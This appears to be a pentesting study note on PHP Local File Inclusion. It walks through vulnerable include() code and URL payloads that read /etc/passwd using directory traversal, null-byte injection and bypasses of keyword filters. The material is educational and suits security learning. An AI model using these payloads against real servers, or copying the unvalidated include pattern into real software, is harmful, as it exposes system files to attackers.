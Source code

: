 ```yaml
---
title: Local File Inclusion
---
```


_Local File Inclusion_ attacks against web applications are often possible due to a developers' lack of security awareness.

With PHP, using functions such as `include`, `require`, `include_once`, and `require_once` often contribute to vulnerable web applications.

LFI vulnerabilities also occur when using other languages such as ASP, JSP, or even in Node.js apps. LFI exploits follow the same concepts as [path-traversal](/private/cybersecurity/knowledge/pentesting/path-traversal.md).

## Example

Suppose the web application provides two languages, and the user can select between the EN and AR

```php
<?php
	include($_GET["lang"]);
?>
```

The PHP code above uses a **GET request** via the URL parameter `lang` to **include** the file of the page.

```
http://webapp.com/index.php?lang=EN.php
http://webapp.com/index.php?lang=AR.php
```

Theoretically, we can access and display any readable file on the server from the code above if there isn't any input validation:

```
http://webapp.com/index.php?lang=/etc/passwd
```

## Example #2

The developer might decided to specify the directory inside the function:

```php
<?PHP
	include("languages/". $_GET['lang']);
?>
```

In the above code, the developer decided to use the include function to call PHP pages in the languages directory only via lang parameters.

If there is no input validation, the attacker can manipulate the URL by replacing the lang input with other OS-sensitive files such as /etc/passwd.

The `include` function allows us to include any called files into the current page. The following will be the exploit:

```
http://webapp.com/index.php?lang=../../../../etc/passwd
```

## Example #3

In the first two cases, we _checked_ the code for the web app, and then we knew how to exploit it. In case of [black-box-testing](/black-box-testing), we need to take a look of the error messages in order to understand how the data is passed and processed into the web app, eg:

```
Warning: include(languages/THM.php): failed to open stream: No such file or directory in /var/www/html/**THM-4**/index.php on line 12
```

The error message discloses what the include function looks like:  `include(languages/THM.php);`

We can tell the function that includes files in the languages directory is adding `.php` at the end of the entry. Thus the valid input will be something like `index.php?lang=EN`, where the file EN is located inside the given `languages/` and named  `EN.php`.

From the error message we also know the full web application directory which is `/var/www/html/THM-4/`

To exploit this, we need to use the [dot-dot-slash trick](/private/cybersecurity/knowledge/pentesting/path-traversal.md) to get out the current folder:

```
http://webapp.com/index.php?lang=../../../../etc/passwd
```

We already knew the `/var/www/html/THM-4` path has four levels, but we still receive the error:

```
Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```

The error tells us that the developer specifies the file type to pass to the `include` function (namely it has to end with `.php`). To go around that, we need to use [null-byte](/private/cybersecurity/knowledge/pentesting/null-byte.md) injection:

```
http://webapp.com/index.php?file=../../../../etc/passwd%00
```

## Example #4 - filtered keywords

Let's say the developer decided to filter keywords to avoid disclosing sensitive information and the `/etc/passwd` file has been filtered.

There are two possible methods to bypass the filter.

- by using the [null byte %00](/private/cybersecurity/knowledge/pentesting/null-byte.md)
- the current directory [path-traversal](/private/cybersecurity/knowledge/pentesting/path-traversal.md) trick at the end of the filtered keyword (`/.`)

The exploit will be similar to ```

```
http://webapp.thm/index.php?lang=/etc/passwd/.
```

If we try `/etc/passwd/..`, it results to be  `/etc/` and that's because we moved one to the root. If we try `/etc/passwd/.`, the result will be `/etc/passwd` since dot refers to the current directory.

## Example #5 - input validation

---

Let's say the developer starts to use input validation by filtering some keywords out of it.

```
http://webapp.thm/index.php?lang=../../../../etc/passwd
```

By using such URL, we got the following error:

```php
Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/THM-5/index.php on line 15
```

From the error message we know that the web application replaces the `../` with the empty string (it defaults the fn call to `include(languages/etc/passwd`).

There are a couple of techniques we can use to bypass this.

We can send the following [payload](/knowledge/offsec/glossary/payload.md) to bypass it: `....//....//....//....//....//etc/passwd`, as the PHP filter only matches and replaces **the first subset** string it finds (`../`) and doesn't do another pass, turning

```
..//....//....//....//etc/passwd
```

into

```
../../../../etc/passwd
```

## Example 6 - forced directory

If the developer forces the `include` fn to read from a defined directory, namely, if the web application asks to supply input that has to include a directory such as

```
http://webapp.thm/index.php?lang=languages/EN.php
```

then, to exploit this, we need to include the directory in the [payload](/knowledge/offsec/glossary/payload.md) like so:

```
?lang=languages/../../../../../etc/passwd
```
